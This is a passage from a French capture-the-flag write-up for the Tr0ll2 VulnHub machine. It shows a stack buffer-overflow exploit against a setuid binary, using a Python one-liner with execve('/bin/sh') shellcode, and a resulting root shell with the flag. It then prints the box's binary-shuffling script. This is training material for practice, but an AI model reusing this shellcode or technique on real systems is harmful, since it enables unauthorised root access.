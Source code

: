 Vu qu'il s'agit de la tache qui gère le cache APT il est possible que certaines conditions doivent être réunies pour entrer dans cette section du code.

On pourrait s'attendre que les binaires qui appellent `system()` soit vulnérables à *Shellshock* mais ça ne semble pourtant pas être le cas.

L'exploitation du buffer overflow est en tout point similaire à celui du [CTF Underdist #3](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Underdist%20%233%20de%20VulnHub.md) avec les même conditions donc je n'entrerais pas dans les détails : il y a juste le nombre d'octets avant l'adresse de retour et l'adresse de retour à changer.

Rendez-vous sur l'autre writeup pour les détails de l'exploitation.

```shellsession
noob@Tr0ll2:~$ /nothing_to_see_here/choose_wisely/door1/r00t `python -c 'print "A"*268 + "\x55\xea\xe2\xb7" + "\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80"'`
# id
uid=0(root) gid=1002(noob) groups=0(root),1002(noob)
# cd /root
# ls
Proof.txt  core1  core2  core3  core4  goal  hardmode  lmao.zip  ran_dir.py  reboot
# cat Proof.txt
You win this time young Jedi...

a70354f0258dcc00292c72aab3c8b1e4
```

## Sous le capot

Le CTF a un script qui change au démarrage quel binaire setuid root fait telle ou telle tache :

```python
#!/usr/bin/env python
import random
import shutil
import os

source1 = "/root/core1/"
source2 = "/root/core2/"
source3 = "/root/core3/"
source4 = "/root/core4/"

dest= "/nothing_to_see_here/choose_wisely/"

lottery = random.randrange(1,5)

def choice():
        if lottery == 1:
                os.system("rm -r /nothing_to_see_here/*")
                shutil.copytree(source1, dest, symlinks = False, ignore = None)
        elif lottery == 2:
                os.system("rm -r /nothing_to_see_here/*")
                shutil.copytree(source2, dest, symlinks = False, ignore = None)
        elif lottery == 3:
                os.system("rm -r /nothing_to_see_here/*")
                shutil.copytree(source3, dest, symlinks = False, ignore = None)
        elif lottery == 4:
                os.system("rm -r /nothing_to_see_here/*")
                shutil.copytree(source4, dest, symlinks = False, ignore = None)
choice()
os.system("chmod -R u+s /nothing_to_see_here")
```

*Publié le 1er janvier 2023*
